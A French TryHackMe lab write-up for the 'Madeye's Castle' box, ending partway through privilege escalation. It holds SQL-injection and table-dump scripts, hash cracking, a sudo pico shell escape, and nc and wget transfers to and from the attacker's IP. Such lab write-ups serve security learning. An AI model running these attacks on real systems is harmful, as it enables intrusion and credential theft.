




# Madeye's Castle #

## Task 1 Capture the Flags ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c 'echo "10.10.97.166 madeyecastle.thm" >> /etc/hosts'

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A madeyecastle.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-04 20:38 CEST
Nmap scan report for madeyecastle.thm (10.10.97.166)
Host is up (0.062s latency).
Not shown: 65531 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:5f:48:fa:3d:3e:e6:9c:23:94:33:d1:8d:22:b4:7a (RSA)
|   256 53:75:a7:4a:a8:aa:46:66:6a:12:8c:cd:c2:6f:39:aa (ECDSA)
|_  256 7f:c2:2f:3d:64:d9:0a:50:74:60:36:03:98:00:75:98 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: Amazingly It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.39 - 3.2 (86%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HOGWARTZ-CASTLE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: HOGWARTZ-CASTLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: hogwartz-castle
|   NetBIOS computer name: HOGWARTZ-CASTLE\x00
|   Domain name: \x00
|   FQDN: hogwartz-castle
|_  System time: 2021-10-04T18:41:10+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-04T18:41:10
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   80.89 ms 10.9.0.1
2   80.95 ms madeyecastle.thm (10.10.97.166)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.24 seconds

```

D'après le scan nmap on remarque plusieurs services :  
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.    
Le service de partage smb sur les ports 139 et 445.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L //madeyecastle.thm
Enter WORKGROUP\tim's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Harry's Important Files
	IPC$            IPC       IPC Service (hogwartz-castle server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

On remarque un partage personnalisé qui est sambashare.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient //madeyecastle.thm/sambashare/
Enter WORKGROUP\tim's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 02:19:20 2020
  ..                                  D        0  Thu Nov 26 01:57:55 2020
  spellnames.txt                      N      874  Thu Nov 26 02:06:32 2020
  .notes.txt                          H      147  Thu Nov 26 02:19:19 2020

		9219412 blocks of size 1024. 4413460 blocks available
smb: \> get spellnames.txt
getting file \spellnames.txt of size 874 as spellnames.txt (6,4 KiloBytes/sec) (average 6,4 KiloBytes/sec)
smb: \> get .notes.txt
getting file \.notes.txt of size 147 as .notes.txt (1,1 KiloBytes/sec) (average 3,8 KiloBytes/sec)
smb: \> exit
```

On se connecte sur sambashare et on récupère deux fichiers.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat spellnames.txt | head
avadakedavra
crucio
imperio
morsmordre
brackiumemendo
confringo
sectumsempra
sluguluseructo
furnunculus
densaugeo

tim@kali:~/Bureau/tryhackme/write-up$ cat .notes.txt
Hagrid told me that spells names are not good since they will not "rock you"
Hermonine loves historical text editors along with reading old books.
```

Dans les deux fichiers, il y a :
spellnames.txt qui est une liste de mots.   
.notes.txt qui est une note qui recommande de ne pas utiliser des noms, on voit aussi deux noms qui sont Hagrid et Hermonine.   

Les noms de Hagrid et Hermonine sont des noms dans Harry potter.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u madeyecastle.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/backup               (Status: 301) [Size: 321] [--> http://madeyecastle.thm/backup/]
/index.html           (Status: 200) [Size: 10965]                                    
/server-status        (Status: 403) [Size: 281]                                      
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u madeyecastle.thm/backup/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/email                (Status: 200) [Size: 1527]

tim@kali:~/Bureau/tryhackme/write-up$ curl madeyecastle.thm/backup/email
Madeye,

It is done. I registered the name you requested below but changed the "s" to a "z". You should be good to go.

RME

--------
On Tue, Nov 24, 2020 at 8:54 AM Madeye Moody <ctf@madeye.ninja> wrote:
Mr. Roar M. Echo,

Sounds great! Thanks, your mentorship is exactly what we need to avoid legal troubles with the Ministry of Magic.

Magically Yours,
madeye

--------
On Tue, Nov 24, 2020 at 8:53 AM Roar May Echo <info@roarmayecho.com> wrote:
Madeye,

I don't think we can do "hogwarts" due to copyright issues, but let’s go with "hogwartz", how does that sound?

Roar

--------
On Tue, Nov 24, 2020 at 8:52 AM Madeye Moody <ctf@madeye.ninja> wrote:
Dear Mr. Echo,

Thanks so much for helping me develop my castle for TryHackMe. I think it would be great to register the domain name of "hogwarts-castle.thm" for the box. I have been reading about virtual hosting in Apache and it's a great way to host multiple domains on the same server. The docs says that...

> The term Virtual Host refers to the practice of running more than one web site (such as 
> company1.example.com and company2.example.com) on a single machine. Virtual hosts can be 
> "IP-based", meaning that you have a different IP address for every web site, or "name-based", 
> meaning that you have multiple names running on each IP address. The fact that they are 
> running on the same physical server is not apparent to the end user.

You can read more here: https://httpd.apache.org/docs/2.4/vhosts/index.html

What do you think?

Thanks,
madeye

```

Avec gobuster on trouve une adresse qui est : http://madeyecastle.thm/backup/email/  
Dans la page email on comprend qu'il y a un domaine enregistré.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl madeyecastle.thm/ -s | grep -F '<!--' -A 2
  <!--
        TODO: Virtual hosting is good. 
        TODO: Register for hogwartz-castle.thm
--
<!--      <div class="table_of_contents floating_element">
        <div class="section_header section_header_grey">
          TABLE OF CONTENTS
```

Dans les comentaires de la page principale on voit un nom de domaine virtuel qui est : hogwartz-castle.thm 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c 'echo "10.10.97.166 hogwartz-castle.thm" >> /etc/hosts'
[sudo] Mot de passe de tim : 
```

On enregistre le nouveau nom de domaine dans le fichier hosts.   



Sur le nouveau nom de domaine on a un formulaire pour se connecter avec des identifiants.  
On tente un injection est on a une message qui est : The password for Lucas Washington is incorrect! contact administrator. Congrats on SQL injection... keep digging

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat colonne.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
i = 1

while True:
    data['password']='whatevs'
    data['user'] = "' or 1=1 order by " + str(i) + " -- "
    r = requests.post(url,data=data)
    r.status_code
    if str(r) != "<Response [403]>":
        break
    i += 1

print(i-1)
```

On crée un script qui permet d'obtenir le nombre colonne.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python colonne.py 
4
```

Dans notre cas on a 4 colonnes.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select table_name,2,3,4 from information_schema.tables --"
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

On teste avec information_schema pour voir si c'est MySQL mais ça ne fonctionne pas.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select tbl_name,2,3,4 from sqlite_master -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for users is incorrect! 4"}
```

On teste avec SQLite ça fonctionne on obtient un table qui a comme nom users.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select 1,2,3,sql from sqlite_master -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for 1 is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
```

Cette commande permet d'obtenir la commande pour créer la table users.  
On extrait les noms de colonnes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat trouveBase.py 
import requests
url = "http://hogwartz-castle.thm/login"
data = {}
data['user'] = "' union select name,2,3,admin from users -- "
r = requests.post(url,data=data)
print(r.text)

tim@kali:~/Bureau/tryhackme/write-up$ python trouveBase.py 
{"error":"The password for Aaliyah Allen is incorrect! 0"}
```

On teste le nom admin sur depuis users, on a un nom.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat dump.py 
#!/usr/bin/env python3

import requests
import re
import json

url = "http://hogwartz-castle.thm/"
patt = re.compile('(.* .*:.*:.*)',re.DOTALL)


concat = "(name || ':' || password || ':' || notes)"
data = {}
data['password'] = 'whateves'
i = 0

while True:
    payload = f"' union select 1,2,3,{concat} from users limit 1 offset {i} -- "
    data['user'] = payload
    r = requests.post(url + '/login', data=data)
    if r.status_code == 200:
        break
    m = json.loads(r.text)['error'].split('!')[1].strip()
    message = patt.findall(m)[0]
    name, password, notes = message.split(':')
    print("{:20} | {:50}".format(name, password))
    print("{:20} | {}".format('',notes))
    i += 1
```

On va extraire les données avec le script ci-dessus.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python dump.py 
Aaliyah Allen        | c063c5215b56091327a1f25e38e2d0a5e6db83cceb0ab29cbb0bedd686c18ee5770bfbbfa0a4ac542c8935b0fb63e30ea0bc0408d3523157d840fdfa54ec8dab
                     |  contact administrator. Congrats on SQL injection... keep digging
Aaliyah Sanders      | dc2a6b9462945b76f333e075be0bc2a9c87407a3577f43ba347043775a0f4b5c1a78026b420a1bf7da84f275606679e17ddc26bceae25dad65ac79645d2573c0
                     |  contact administrator. Congrats on SQL injection... keep digging
Aaliyah Williams     | 9dc90274aef30d1c017a6dc1d5e3c07c8dd6ae964bcfb95cadc0e75ca5927faa4d72eb01836b613916aea2165430fc7592b5abb19b0d0b2476f7082bfa6fb760
                     |  contact administrator. Congrats on SQL injection... keep digging
Abigail Morgan       | afcaf504e02b57f9b904d93ee9c1d2e563d109e1479409d96aa064e8fa1b8ef11c92bae56ddb54972e918e04c942bb3474222f041f80b189aa0efd22f372e802
                     |  contact administrator. Congrats on SQL injection... keep digging
Adam Jenkins         | 2317e58537e9001429caf47366532d63e4e37ecd363392a80e187771929e302922c4f9d369eda97ab7e798527f7626032c3f0c3fd19e0070168ac2a82c953f7b
                     | contact administrator. Congrats on SQL injection... keep digging
Andrea Phillips      | e1ed732e4aa925f0bf125ae8ed17dd2d5a1487f9ff97df63523aa481072b0b5ab7e85713c07e37d9f0c6f8b1840390fc713a4350943e7409a8541f15466d8b54
                     |  contact administrator. Congrats on SQL injection... keep digging
Blake Washington     | 4c968fc8f5b72fd21b50680dcddea130862c8a43721d8d605723778b836bcbbc0672d20a22874af855e113cba8878672b7e6d4fc8bf9e11bc59d5dd73eb9d10e
                     | contact administrator. Congrats on SQL injection... keep digging
Brody Stewart        | 36e2de7756026a8fc9989ac7b23cc6f3996595598c9696cca772f31a065830511ac3699bdfa1355419e07fd7889a32bf5cf72d6b73c571aac60a6287d0ab8c36
                     | contact administrator. Congrats on SQL injection... keep digging
Carlos Barnes        | 7f67af71e8cbb7188dd187b7da2386cc800ab8b863c9d0b2dce87c98a91b5511330a2ad4f7d73592b50a2a26c26970cfbd22f915d1967cd92569dbf5e24ac77e
                     | contact administrator. Congrats on SQL injection... keep digging
Carlos Lopez         | 8c8702dbb6de9829bcd6da8a47ab26308e9db7cb274b354e242a9811390462a51345f5101d7f081d36eea4ec199470162775c32cb1f4a96351dc385711619671
                     | contact administrator. Congrats on SQL injection... keep digging
Claire Miller        | d4d5f4384c9034cd2c77a6bee5b17a732f028b2a4c00344c220fc0022a1efc0195018ca054772246a8d505617d2e5ed141401a1f32b804d15389b62496b60f24
                     |  contact administrator. Congrats on SQL injection... keep digging
Diego Baker          | 87ac9f90f01b4b2ae775a7cb96a8a04d7ab7530282fd76224ee03eecab9114275540e4b6a2c52e890cf11f62aacb965be0c53c48c0e51bf731d046c5c3182aad
                     | contact administrator. Congrats on SQL injection... keep digging
Elizabeth Cook       | af9f594822f37da8ed0de005b940158a0837060d3300be014fe4a12420a09d5ff98883d8502a2aaffd64b05c7b5a39cdeb5c57e3005c3d7e9cadb8bb3ad39ddb
                     |  contact administrator. Congrats on SQL injection... keep digging
Ella Garcia          | ac67187c4d7e887cbaccc625209a8f7423cb4ad938ec8f50c0aa5002e02507c03930f02fab7fab971fb3f659a03cd224669b0e1d5b5a9098b2def90082dfdbd2
                     |  contact administrator. Congrats on SQL injection... keep digging
Gianna Harris        | 01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
                     |  contact administrator. Congrats on SQL injection... keep digging
Grace Brooks         | 9a311251255c890692dc84b7d7d66a1eefc5b89804cb74d16ff486927014d97502b2f790fbd7966d19e4fbb03b5eb7565afc9417992fc0c242870ea2fd863d6d
                     |  contact administrator. Congrats on SQL injection... keep digging
Harry Turner         | b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
                     | My linux username is my first name, and password uses best64
Jasmine King         | 487daab566431e86172ed68f0836f3221592f91c94059a725d2fdca145f97e6258593929c37d0339ca68614a52f4df61953b930585c4968cedaaa836744c52a6
                     |  contact administrator. Congrats on SQL injection... keep digging
Jonathan Long        | 44b1fbcbcd576b8fd69bf2118a0c2b82ccf8a6a9ef2ae56e8978e6178e55b61d491f6fc152d07f97ca88c6b7532f25b8cd46279e8a2c915550d9176f19245798
                     | contact administrator. Congrats on SQL injection... keep digging
Jordan White         | 5ed63206a19b036f32851def04e90b8df081071aa8ca9fb35ef71e4daf5e6c6eab3b3fea1b6e50a45a46a7aee86e4327f73a00f48deb8ae2bf752f051563cc8b
                     | contact administrator. Congrats on SQL injection... keep digging
Joseph Rivera        | 6487592ed88c043e36f6ace6c8b6c59c13e0004f9751b0c3fdf796b1965c48607ac3cc4256cc0708e77eca8e2df35b668f5844200334300a17826c033b03fe29
                     | contact administrator. Congrats on SQL injection... keep digging
Joshua Reed          | e49608634f7de91d19e5e1b906e10c5a4a855a4fe32521f310727c9875e823c82b3e0347b32ef49ea44657e60e771d9e326d40ab60ce3a950145f1a7a79d3124
                     | contact administrator. Congrats on SQL injection... keep digging
Julian Robinson      | a1f6e38be4bf9fd307efe4fe05522b8c3a9e37fc2c2930507e48cb5582d81f73814ffb543cef77b4b24a18e70e2670668d1a5b6e0b4cb34af9706890bd06bbc9
                     | contact administrator. Congrats on SQL injection... keep digging
Kennedy Anderson     | e3c663d68c647e37c7170a45214caab9ca9a7d77b1a524c3b85cdaeaa68b2b5e740357de2508142bc915d7a16b97012925c221950fb671dd513848e33c33d22e
                     |  contact administrator. Congrats on SQL injection... keep digging
Kimberly Murphy      | 8f45b6396c0d993a8edc2c71c004a91404adc8e226d0ccf600bf2c78d33ca60ef5439ccbb9178da5f9f0cfd66f8404e7ccacbf9bdf32db5dae5dde2933ca60e6
                     |  contact administrator. Congrats on SQL injection... keep digging
Landon Alexander     | 79d9a8bef57568364cc6b4743f8c017c2dfd8fd6d450d9045ad640ab9815f18a69a4d2418a7998b4208d509d8e8e728c654c429095c16583cbf8660b02689905
                     | contact administrator. Congrats on SQL injection... keep digging
Liam Hernandez       | 5628255048e956c9659ed4577ad15b4be4177ce9146e2a51bd6e1983ac3d5c0e451a0372407c1c7f70402c3357fc9509c24f44206987b1a31d43124f09641a8d
                     | contact administrator. Congrats on SQL injection... keep digging
Liam Ward            | 88344d6b7724bc0e6e3247d4912fa755a5a91c2276e08610462f6ea005d16fd5e305dfe566e7f1dd1a98afe1abfa38df3d9697cdc47ecbb26ac4d21349d09ba7
                     | contact administrator. Congrats on SQL injection... keep digging
Lucas Washington     | c53d7af1bbe101a6b45a3844c89c8c06d8ac24ed562f01b848cad9925c691e6f10217b6594532b9cd31aa5762d85df642530152d9adb3005fac407e2896bf492
                     | contact administrator. Congrats on SQL injection... keep digging
Madelyn Morgan       | d17604dbb5c92b99fe38648bbe4e0a0780f2f4155d58e7d6eddd38d6eceb62ae81e5e31a0a2105de30ba5504ea9c75175a79ed23cd18abcef0c8317ba693b953
                     |  contact administrator. Congrats on SQL injection... keep digging
Maya Sanders         | 7eea93d53fbed3ba8f2fa3d25c5f16fe5eaff1f5371918e0845d2076a2e952a457390ad87d289bf25f9457032f14bb07dcd625d03f2f5ee5c887c09dc7107a66
                     |  contact administrator. Congrats on SQL injection... keep digging
Oliver Gonzalez      | c809b40b7c3c0f095390f3cd96bb13864b7e8fd1670c6b1c05b1e26151be62782b97391b120cb4a8ee1d0c9b8fffaf12b44c9d084ae6041468ad5f12ec3d7a4e
                     | contact administrator. Congrats on SQL injection... keep digging
Olivia Murphy        | 6535ee9d2b8d6f2438cf92da5a00724bd2539922c83ca19befedbe57859ceafd6d7b9db83bd83c26a1e070725f6f336e21cb40295ee07d87357c34b6774dd918
                     |  contact administrator. Congrats on SQL injection... keep digging
Olivia Ross          | 93b4f8ce01b44dd25c134d0517a496595b0b081cef6eb625e7eb6662cb12dd69c6437af2ed3a5972be8b05cc14a16f46b5d11f9e27e6550911ed3d0fe656e04d
                     |  contact administrator. Congrats on SQL injection... keep digging
Parker Cox           | 53e7ea6c54bea76f1d905889fbc732d04fa5d7650497d5a27acc7f754e69768078c246a160a3a16c795ab71d4b565cde8fdfbe034a400841c7d6a37bdf1dab0d
                     | contact administrator. Congrats on SQL injection... keep digging
Samuel Anderson      | a86fa315ce8ed4d8295bf6d0139f23ba80e918a54a132e214c92c76768f27ce002253834190412e33c9af4ea76befa066d5bdeb47363f228c509b812dc5d81df
                     | contact administrator. Congrats on SQL injection... keep digging
Savannah Torres      | 11f9cd36ed06f0c166ec34ab06ab47f570a4ec3f69af98a3bb145589e4a221d11a09c785d8d3947490ae4cd6f5b5dc4eb730e4faeca2e1cf9990e35d4b136490
                     |  contact administrator. Congrats on SQL injection... keep digging
Sophie Sanchez       | 68b519187b9e2552d555cb3e9183711b939f94dfe2f71bda0172ee8402acf074cc0f000611d68d2b8e9502fa7235c8a25d72da50916ad0689e00cb4f47283e9b
                     |  contact administrator. Congrats on SQL injection... keep digging
Sydney Wright        | d3ccca898369a3f4cf73cbfc8daeeb08346edf688dc9b7b859e435fe36021a6845a75e4eddc7a932e38332f66524bd7876c0c613f620b2030ed2f89965823744
                     |  contact administrator. Congrats on SQL injection... keep digging
Zoey Gonzales        | 134d4410417fb1fc4bcd49abf4133b6de691de1ef0a4cdc3895581c6ad19a93737cd63cb8d177db90bd3c16e41ca04c85d778841e1206193edfebd4d6f028cdb
                     |  contact administrator. Congrats on SQL injection... keep digging

```

On extrait les données.  

Harry Turner         | b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
                     | My linux username is my first name, and password uses best64

On trouve un commentaire que le nom d'utilisateur est Harry. 
Et le mot de passe utilise la règle best64 de hashcat.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ haiti b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885
SHA-512 [HC: 1700] [JtR: raw-sha512]
```

On identifie le hash ave haiti, qui nous dit que c'est du SHA-512. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 1700 hash spellnames.txt -r /usr/share/hashcat/rules/best64.rule --quiet
b326e7a664d756c39c9e09a98438b08226f98b89188ad144dd655f140674b5eb3fdac0f19bb3903be1f52c40c252c0e7ea7f5050dec63cf3c85290c0a2c5c885:wingardiumleviosa123
```

On casse le mot de passe avec la règle best64.rule, le mot de passe est : wingardiumleviosa123  



On s'identifie avec les idenfiant : Harry Turner:wingardiumleviosa123
On voit un message qui dit que réutiliser le mot de passe c'est une mauvaise idée.   

**User1.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh harry@hogwartz-castle.thm
The authenticity of host 'hogwartz-castle.thm (10.10.56.77)' can't be established.
ECDSA key fingerprint is SHA256:tqvs4QmNV2BNfZVq42KFIsFtERVf7F4W5ziragiTf/0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'hogwartz-castle.thm,10.10.56.77' (ECDSA) to the list of known hosts.
harry@hogwartz-castle.thm's password: 
 _      __    __                     __         __ __                          __
 | | /| / /__ / /______  __ _  ___   / /____    / // /__  ___ __    _____ _____/ /____
 | |/ |/ / -_) / __/ _ \/  ' \/ -_) / __/ _ \  / _  / _ \/ _ `/ |/|/ / _ `/ __/ __/_ /
 |__/|__/\__/_/\__/\___/_/_/_/\__/  \__/\___/ /_//_/\___/\_, /|__,__/\_,_/_/  \__//__/
                                                        /___/

Last login: Thu Nov 26 01:42:18 2020
harry@hogwartz-castle:~$ ls
user1.txt
harry@hogwartz-castle:~$ cat user1.txt 
RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}
```

On se connecte sur le service SSH et on trouve le fichier user1.txt  

La flag est : RME{th3-b0Y-wHo-l1v3d-f409da6f55037fdc}   

```bash
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry: 
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```

On voit que l'on peut exécuter pico avec les droits hermonine.   

```bash
harry@hogwartz-castle:~$ sudo -u hermonine /usr/bin/pico
sudo pico
^R^X
reset; sh 1>&0 2>&0
$ cd ..
$ ls
harry  hermonine
$ cd hermonine
$ ls
user2.txt
$ cat user2.txt
RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}
```

Il faut exécuter pico avec les droits hermonine.  
On dit à pico d'exécuter un shell.   
On va dans le répertoire hermonine.   
On lit le fichier user2.txt.    
Le flag est : RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}   

Les commandes pico se trouvent dans [GTFObin](https://gtfobins.github.io/gtfobins/pico/#sudo).  

```bash
bash: /home/harry/.bashrc: Permission denied
hermonine@hogwartz-castle:/home/hermonine$ 

hermonine@hogwartz-castle:/home/hermonine$ find / -perm -4000 2>/dev/null
/srv/time-turner/swagger
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/bin/umount
/bin/fusermount
/bin/su
/bin/ping
/bin/mount

```

On stabilise le shell.  
On regarde les fichiers setuid, on trouve swagger qui est un fichier suspect.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lp 1234 > swagger 

--------------

hermonine@hogwartz-castle:/home/hermonine$nc 10.9.228.66 1234 < /srv/time-turner/swagger 
```

On transfère le fichier pour analyse.  



On décompile le programme.  
On voit le programme génère un nombre aléatoire puit le compare avec la saisie utilisateur.  
La graine pour génèrer le nombre aléatoire est le nombre de secondes, si on répéte le code en mois d'un seconde on aura toujours le même nombre.  

Si on trouve le bon nombre le programme exécute uname -p.   

```python
tim@kali:~/Bureau/tryhackme/write-up$ cat 2time.py 
#!/usr/bin/env python3

from pwn import *
context.log_level = 'error'

# First pass to get the number
p = process('/srv/time-turner/swagger')
p.sendline('1337');
p.readline()                  # Nope message
response = p.readline()       # Thinking message
answer = response.decode().split(' ')[-1].strip()
p.close()

# Second pass to get to impressive
p = process('/srv/time-turner/swagger')
p.sendline(answer)
print(p.readline())
print(p.readline())
p.close()
```
```bash
tim@kali:~/Bureau/tryhackme/write-up$ python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

hermonine@hogwartz-castle:/home/hermonine$  wget http://10.9.228.66:8000/2time.py -nv
2021-10-05 07:56:05 URL:http://10.9.228.66:8000/2time.py [461/461] -> "2time.py" [1]

```

On créer un script qui va exécuter le programme 2 fois en moins de 1 seconde. 
Il récupère la réponse de la première tentative et l'envoie sur la seconde tentative.   
On transfert le fichier.  

```bash
hermonine@hogwartz-castle:/home/hermonine$ python3 2time.py
b'Guess my number: Nice use of the time-turner!\n'hermonine@hogwartz-castle:/home/hermonine$ 
```

